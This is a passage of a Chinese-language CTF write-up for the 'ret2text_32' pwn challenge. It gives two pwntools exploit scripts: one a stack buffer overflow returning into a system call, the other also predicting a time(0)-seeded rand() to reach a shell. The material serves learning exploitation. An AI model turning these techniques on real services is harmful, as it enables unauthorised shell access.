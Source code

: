 ```python
from pwn import *

context.log_level = "debug"

io = process("./ret2text_32")
payload = flat([cyclic(0x6C + 4), 0x080486D5])
io.sendlineafter(b"anything?\n", payload)
io.interactive()
```

只是 `pwntools` 的基本使用，开启 `debug` 模式的日志输出对学习和调试有很大帮助，可以观察看看和我上面所写的 payload 是不是差不多。

______________________________________________________________________

这里还有另一种解法。

之前是覆盖返回到调用 system 的代码段，现在选择覆盖返回到调用 `secure` 函数，然后程序会要求读入一个与随机数相同的数才能执行 `/bin/sh` ，我们要做的就是——**预测随机数**。

```c
uVar1 = sym.imp.time(0);
sym.imp.srand(uVar1);
var_ch = sym.imp.rand();
```

只是使用 `time(0)` 生成当前系统时间作为随机数种子，在这个情况下是不安全的。如果在极短的时间内多次调用 `time(0)` 会得到相同的种子值，继而导致生成的随机数一致。\
（其实并没有“极短”，因为时间的分辨率通常是秒级别的）

所以说，我们在调用 `process("./xxx")` 或者 `remote("xxx", xxx)` 的同时（时间间隔很近就可以了），使用 `time(0)` 作为随机数种子生成随机数，再覆盖返回地址为 `secure` 函数的地址，最后输入预测的随机数值，就可以得到 shell 了。

代码如下：

[exp2.py](writeup/exp2.py)

```python
from pwn import *
from ctypes import cdll

context.log_level = "debug"

elf = ELF("./ret2text_32")

libc = cdll.LoadLibrary("libc.so.6")
libc.srand(libc.time(0))
number = libc.rand()

io = remote('', 32793)
payload = flat([cyclic(0x6C+4), elf.sym["secure"]])
io.sendlineafter(b"anything?\n", payload)
io.sendline(str(number).encode())

io.interactive()
```

我尽量将生成随机数的 `libc.rand()` 与和远程建立连接的 `remote()` 放在近的地方，并且 `libc.rand()` 在 `remote()` 前面，避免远程某些 I/O 太耗时，导致本地生成随机数的时候已经晚了。\
这都是为了尽可能使用同样的随机数种子，继而生成同样的随机数。\
（所以说网络延迟高的时候不要用这个方法）

这里是用的 `ctypes`，你写一个 C 语言程序编译好可执行文件，然后在 Python 中调用命令获取程序输出的随机数，也是可以的。
